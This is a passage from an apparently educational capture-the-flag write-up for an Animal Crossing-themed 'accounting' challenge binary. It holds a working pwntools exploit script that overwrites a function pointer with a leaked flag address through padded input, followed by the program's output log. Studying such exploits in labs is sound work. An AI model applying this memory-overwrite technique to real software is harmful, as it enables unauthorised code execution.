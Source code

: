 All that's left now is to overwrite the print address to go to the flag instead. If we look at the memory map, we'll only need to print 16 characters and then four bytes for the address. Those characters won't be typable, so let's write a script to do it for us.

```python
from pwn import *

sh = process("./accounting-fast")#remote("chal.uiuc.tf", 2001)
sh.recvuntil("{")
flag = sh.recvuntil("}")[2:-1] #remove 0x and } from flag address
flagAsBytes = p32(int(flag, 16))
print("flag address: " + flag)

print(sh.recvuntil("Item: "))
sh.send("blahblahblahblah" + flagAsBytes)
print(sh.recvuntil("Cost: "))
sh.send("24")
print(sh.recvuntil("Cost: "))
sh.send("26")
print(sh.recvuntil("Cost: "))
sh.send("27")
print(sh.recvuntil("Cost: "))
sh.send("5")
sh.read()
sh.interactive()
```

And we got it!

{% endraw %}


[//]: <> "This is here because jekyll is stupid"
[NookAccounting]: Booting up Fancy Laser Accounting Generator (F.L.A.G.) at {0x8048878}
[NookAccounting]: Added "Apples" with cost of 10 bells to accounting spreadsheet.
[NookAccounting]: Added "Fancy Seashells" with cost of 20 bells to accounting spreadsheet.
[NookAccounting]: Added "Tom Nook Shirts" with cost of 30 bells to accounting spreadsheet.
[NookAccounting]: Added "Airplane Ticket" with cost of 40 bells to accounting spreadsheet.
[NookAccounting]: Added "ATM Repairs" with cost of 50 bells to accounting spreadsheet.
[Isabelle]: Oh no! I cant seem to find what this item is, but it cost 25 bells, what is it?
[Isabelle]: Ohmygosh! Thank you for remembering! Now I can get back to work!
[NookAccounting]: Added "e
[Isabelle]: Ohmyheck! I dont know how much "Shrub Trimming" costs. Can you tell me?
[NookAccounting]: Added "Shrub Trimming" with cost of 1 bells to accounting spreadsheet.
[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Ohmyheck! I dont know how much "Raymond Hush $$" costs. Can you tell me?
[NookAccounting]: Added "Raymond Hush $$" with cost of 2 bells to accounting spreadsheet.
[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Ohmyheck! I dont know how much "Town Hall Food" costs. Can you tell me?
[NookAccounting]: Added "Town Hall Food" with cost of 3 bells to accounting spreadsheet.
[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Ohmyheck! I dont know how much "New Wall Art" costs. Can you tell me?
[NookAccounting]: Added "New Wall Art" with cost of 4 bells to accounting spreadsheet.
[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Okay thank you so much! I'll run the accounting software at address 0x80487a6